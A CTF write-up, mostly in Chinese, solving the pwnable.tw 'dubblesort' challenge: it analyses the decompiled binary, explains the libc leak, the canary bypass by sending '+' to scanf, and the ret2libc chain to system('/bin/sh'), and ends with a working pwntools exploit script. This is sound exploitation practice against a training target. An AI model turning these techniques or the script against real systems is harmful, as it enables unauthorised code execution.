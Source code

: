 ```yaml
---
title: Libc-Leak-and-Bypass-the-canary-dobblesort-[pwnable]
date: 2022-4-25
tags: 
- Pwn
- CTF

categories:
- CTF

toc: true # 是否启用内容索引
sidebar: none # 是否启用sidebar侧边栏，none：不启用
---
```






# Libc leak and Bypass the canary-pwnable[dobblesort]

## 0x1 checksec

![checksec](2022-4-25-dobblesort/图像 1.png)

Full protection.

## 0x2 Analysis

查看这个程序，

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // eax
  unsigned int *v4; // edi
  unsigned int i; // esi
  unsigned int j; // esi
  int result; // eax
  unsigned int v8; // [esp+18h] [ebp-74h] BYREF
  unsigned int v9[8]; // [esp+1Ch] [ebp-70h] BYREF
  char buf[64]; // [esp+3Ch] [ebp-50h] BYREF
  unsigned int v11; // [esp+7Ch] [ebp-10h]

  v11 = __readgsdword(0x14u);
  sub_8B5();
  __printf_chk(1, "What your name :");
  read(0, buf, 0x40u);
  __printf_chk(1, "Hello %s,How many numbers do you what to sort :");
  __isoc99_scanf("%u", &v8);
  v3 = v8;
  if ( v8 )
  {
    v4 = v9;
    for ( i = 0; i < v8; ++i )
    {
      __printf_chk(1, "Enter the %d number : ");
      fflush(stdout);
      __isoc99_scanf("%u", v4);
      v3 = v8;
      ++v4;
    }
  }
  sort(v9, v3);
  puts("Result :");
  if ( v8 )
  {
    for ( j = 0; j < v8; ++j )
      __printf_chk(1, "%u ");
  }
  result = 0;
  if ( __readgsdword(0x14u) != v11 )
    sub_BA0();
  return result;
}
```

对于这个反汇编的程序，可以看到漏洞点在于对于排序的个数没有限制，可以作为栈溢出的漏洞点

同时，因为开了NX，RELRO，ret2shellcode无法作用，但是给了libc版本，考虑ret2libc.

进一步的，通过调试，发现栈上存在libc的地址，考虑通过read和printf实现泄露

## 0x3 Process

1. 读入cyclic，一直覆盖到libc基址的位置，再通过__printf_chuk泄露出libc基址
2. 读入需要排序的数字，在canary之前的数字选择较小的数字。保证排序之后canary仍然在原来的位置
3. 在读入到cannary的位置时，送入+号，实现读入但不写入内存，就实现了对canary的绕过
4. 在栈上布置libc中system以及/bin/sh的地址

## 0x4 Some questions

1. 在实际调试过程，通过pwndbg的canary命令查看发现, 在这个题目中，canary并不在靠近rbp的位置，反而在栈中间

2. 一个问题，题目给的libc不是标准命名，所以我找不到对应ld，询问学长后知道了直接在libc文件中找标准命名，虽然我找到的这个版本的libc和他给的还是不一样。。。。

3. 在本地打通后，远程一直打不通，在将泄露出的基址打印出来之后，发现这个地址最后的三位地址是0x244，而不是本地的0x000，在本地，这个地址是偏移为0x1b0000的地址，但是在远程，这个偏移显然改变了

   解决：

   - 多次连接远程，对于泄露出来的地址进行分析，发现地址其他部分都在变化，低位的0x244始终不变，符合libc地址的特征，推测远程的这个位置确实是一个libc的地址。
   - 那么偏移到底是多少呢？这个地址大概率是一个特殊地址，直接将libc拖入IDA，搜索结尾为0x244的地址，尝试可能地址，尝试了几次后成功，为偏移在0x1AE244的一个Initialization Table的地址

   思考：

   - 对于这个题目，我本地和远程libc地址是相同的，但是唯一不同的只有ld版本，但是ld版本的不同也不应该改变栈中的这个地址的偏移, 所以这里的变化我还没搞明白原因。暂时码着
     以及，我查看往年的wp，所有的都是直接0x1b0000的偏移实现getshell。是远程改了题目吗?

## 0x5 exp

```python
from pwn import*

#p = gdb.debug('./dubblesort','b main')
#p = process('./dubblesort')
p = remote('chall.pwnable.tw',10101)
context.terminal = ['tmux','splitw','-h']
context.log_level = 'debug'
#elf = ELF('/home/nemo/Active/CTFtools/glibc-all-in-one/libs/2.23-0ubuntu5_i386/libc-2.23.so')
ret_add = 0x177dc

elf = ELF('./libc_32.so.6')

def putNum(i):
    p.recvuntil(' : ')
    p.sendline(str(i))


name = cyclic(27)

p.recvuntil('name :')
p.sendline(name)

libc_base = u32(p.recv(32+6)[-4:])
print('%x' % libc_base)
libc_base = (((libc_base>>12)-0x1Ae)<<12)

print('%x' % libc_base)
system_add = libc_base + elf.sym['system']

p.recvuntil('sort :')
p.sendline('36')

for i in range(24):
    putNum(0)

p.recv()
p.sendline('+')

for i in range(8):
    putNum(system_add)
for i in range(3):
    putNum(libc_base+elf.search(b'/bin/sh\0').__next__())

p.interactive()
```

## 0x6 New skills

**PWN**

1. +-号绕过canary
2. 泄露栈上的libc地址
3. debug对于远程的分析

**Script**

1. python格式化输出
2. pwntools.elf模块搜索字符串。
   python3的next()改名了
